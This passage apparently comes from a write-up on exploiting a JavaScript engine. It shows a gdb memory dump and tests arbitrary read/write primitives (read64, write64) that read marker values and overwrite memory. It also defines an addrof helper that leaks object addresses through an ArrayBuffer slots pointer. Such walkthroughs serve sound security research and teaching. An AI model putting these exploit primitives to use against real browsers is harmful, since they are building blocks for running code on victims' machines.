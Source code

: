 ```js
}
```

Let’s test the read primitive by reading some values from pointers we see in gdb:

```
0x3f20d3c6a098: 0x000055fd568dc088  0x000055fd568db828
0x3f20d3c6a0a8: 0x00003f20d3c6a0c8  0x00000000000003e8
0x3f20d3c6a0b8: 0xfffe09cda9d007e0  0xfff8800000000000
0x3f20d3c6a0c8: 0x4141414141414141  0x0000000000000000
0x3f20d3c6a0d8: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a0e8: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a0f8: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a108: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a118: 0xfffe4d4d4d4d4d4d  0xfffe4d4d4d4d4d4d
0x3f20d3c6a128: 0x00003f20d3c66720  0x000055fd568dc088
0x3f20d3c6a138: 0x000055fd568db828  0x00003f20d3c6a160
0x3f20d3c6a148: 0x0000000000000050  0xfffe09cda9d00820
0x3f20d3c6a158: 0xfff8800000000000  0x4242424242424242
0x3f20d3c6a168: 0x4343434343434343  0x0000000000000000
0x3f20d3c6a178: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a188: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a198: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a1a8: 0x0000000000000000  0xfffe4d4d4d4d4d4d
0x3f20d3c6a1b8: 0xfffe4d4d4d4d4d4d  0x0000000000000000
0x3f20d3c6a1c8: 0x0000000000000000  0x000000000000000
```

```
js> console.log(read64(0x00003f20d3c6a160n).toString(16))
4242424242424242
js> console.log(read64(0x00003f20d3c6a168n).toString(16))
4343434343434343
js> console.log(read64(0x000055fd568dc088n).toString(16))
100000000
```

Writing works as well:

```
write64(0x00003f20d3c6a160n, 0xcafecafecafecafen)
js> console.log(read64(0x00003ed0df26a160n).toString(16))
cafecafecafecafe
```

## One more primitive

Before we think about what we want to read or write we want to create another helper function that gives us the address of an arbitrary JavaScript object. This is very useful if we want to overwrite pointers in certain JavaScript Objects later on.

```js
function addrof(obj){
    // Set a new property on the ArrayBuffer, it will be pointed to by the slots pointer (offset 13)
    bBuf.leak = obj
    // read the slots pointer back
    _slots = aBuf[13]
    // dereference the slots pointer and return it (while masking off any pointer tagging)
    return read64(_slots) & 0xffffffffffffn
}
```
